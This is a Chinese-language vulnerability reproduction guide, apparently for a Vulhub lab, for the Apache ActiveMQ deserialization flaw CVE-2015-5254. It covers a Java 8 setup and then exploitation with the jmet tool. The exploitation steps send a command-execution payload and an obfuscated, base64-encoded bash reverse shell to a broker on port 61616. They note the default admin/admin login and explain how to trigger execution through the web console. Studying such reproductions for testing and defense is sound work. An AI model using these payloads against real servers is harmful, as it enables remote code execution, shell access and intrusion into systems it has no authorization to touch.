


# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境搭建

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```


再次查看java版本，切换成功



## 漏洞复现

Vulhub搭建及运行漏洞环境：

```
docker-compose up -d
```

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/awesome_poc**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```


访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

默认账号密码：admin/admin



点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc


也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```


查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1


监听9999端口，点击消息队列会触发命令执行，反弹Shell


